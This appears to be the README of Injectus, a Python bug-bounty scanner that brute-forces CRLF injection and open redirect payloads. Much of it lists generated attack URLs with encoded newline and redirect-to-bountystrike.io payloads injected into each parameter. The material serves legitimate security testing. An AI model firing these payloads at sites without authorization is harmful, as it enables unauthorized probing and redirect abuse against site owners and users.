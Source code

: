 # Injectus

Simple python tool that goes through a list of URLs trying CRLF and open redirect payloads.


```

    ▪   ▐ ▄  ▐▄▄▄▄▄▄ . ▄▄· ▄▄▄▄▄▄• ▄▌.▄▄ · 
    ██ •█▌▐█  ·██▀▄.▀·▐█ ▌▪•██  █▪██▌▐█ ▀. 
    ▐█·▐█▐▐▌▪▄ ██▐▀▀▪▄██ ▄▄ ▐█.▪█▌▐█▌▄▀▀▀█▄
    ▐█▌██▐█▌▐▌▐█▌▐█▄▄▌▐███▌ ▐█▌·▐█▄█▌▐█▄▪▐█
    ▀▀▀▀▀ █▪ ▀▀▀• ▀▀▀ ·▀▀▀  ▀▀▀  ▀▀▀  ▀▀▀▀ 
              ~ BOUNTYSTRIKE ~

usage: Injectus [-h] [-f FILE] [-u URL] [-r] [-w WORKERS] [-t TIMEOUT] [-c]
                [-op]

Brute force CRLF and open redirect payloads for a given target. Crafted by
@dubs3c.

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing URLs
  -u URL, --url URL     Single URL to test
  -r, --no-request      Only build attack list, do not perform any requests
  -w WORKERS, --workers WORKERS
                        Amount of asyncio workers, default is 20
  -t TIMEOUT, --timeout TIMEOUT
                        HTTP request timeout, default is 6 seconds
  -c, --crlf            Only perform crlf attacks
  -op, --openredirect   Only perform open redirect attacks
```

## Motivation
Needed a simple CRLF/open redirect scanner that I could include into my bug bounty pipeline at [https://github.com/BountyStrike/Bountystrike-sh](https://github.com/BountyStrike/Bountystrike-sh). Didn't find any tools that satisifed my need, so I created Injectus. It's a little bit of an experiment, to see if it works better than other tools.

## Design

If we have the following URL:
```
https://dubell.io/?param1=value1&url=value2&param3=value3
```

**For CRLF attacks**, Injectus will inject every payload once into the value of one parameter, for every n parameters. For example, Injectus will create the following list with the URL above:
```
https://dubell.io/?param1=%%0a0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0d%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%23%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30%61bounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%3f%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%u000abounty:strike&url=value2&param3=value3

https://dubell.io/?param1=value1&url=%%0a0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0d%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%23%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30%61bounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%3f%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%u000abounty:strike&param3=value3

https://dubell.io/?param1=value1&url=value2&param3=%%0a0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0d%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%23%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30%61bounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%3f%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%u000abounty:strike
```

As you can see, every CRLF payload is injected in the first parameter's value. Once the loop is done, Injectus will inject every payload into the second parameter, and so on. Once all parameters have been injected, the list is complete.

If there are no query parameters, Injectus will simply append each payload to the URL, like so:
```
https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://dubell.io/some/path/%250abounty:strike
https://dubell.io/some/path/%25250abounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%u000abounty:strike
```

**When injecting open redirect payloads**, Injectus will only inject a payload if there exists a query/path parameter containing a typical redirect keyword, e.g. `url`. Injecting into the following URL `https://dubell.io/?param1=value1&url=dashboard&param3=value3`:
```
https://dubell.io/?param1=value1&url=$2f%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2f$2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io//param3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=////bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=///bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=//bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/\x08ountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/http://bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=bountystrike.ioparam3=value3
```
The URL contains the query parameter `url`, so Injectus will inject the payloads into that parameter.

An example when using path parameters. Original URL is `https://dubell.io/some/path/that/redirect/dashboard`:
```
https://dubell.io/some/path/that/redirect/$2f%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2f$2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io//
https://dubell.io/some/path/that/redirect/////bountystrike.io
https://dubell.io/some/path/that/redirect////bountystrike.io
https://dubell.io/some/path/that/redirect///bountystrike.io
https://dubell.io/some/path/that/redirect//\x08ountystrike.io
https://dubell.io/some/path/that/redirect//bountystrike.io
https://dubell.io/some/path/that/redirect//http://bountystrike.io
https://dubell.io/some/path/that/redirect/bountystrike.io
```

As before, if no query parameters or path parameters are found, Injectus will simply append each payload to the URL:
```
https://dubell.io/$2f%2fbountystrike.io%2f%2f
https://dubell.io/%2f$2fbountystrike.io
https://dubell.io/%2fbountystrike.io%2f%2f
https://dubell.io/%2fbountystrike.io
https://dubell.io/%2fbountystrike.io//
https://dubell.io/////bountystrike.io
https://dubell.io////bountystrike.io
https://dubell.io///bountystrike.io
https://dubell.io//\\bountystrike.io
https://dubell.io//bountystrike.io
https://dubell.io//http://bountystrike.io
https://dubell.io/bountystrike.io
```

## Installation
```
pip3.7 install -r requirements.txt --user
```

## Contributing
Any feedback or ideas are welcome! Want to improve something? Create a pull request!

1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Configure pre commit checks: `pre-commit install`
4. Commit your changes: `git commit -am 'Add some feature'`
5. Push to the branch: `git push origin my-new-feature`
6. Submit a pull request :D

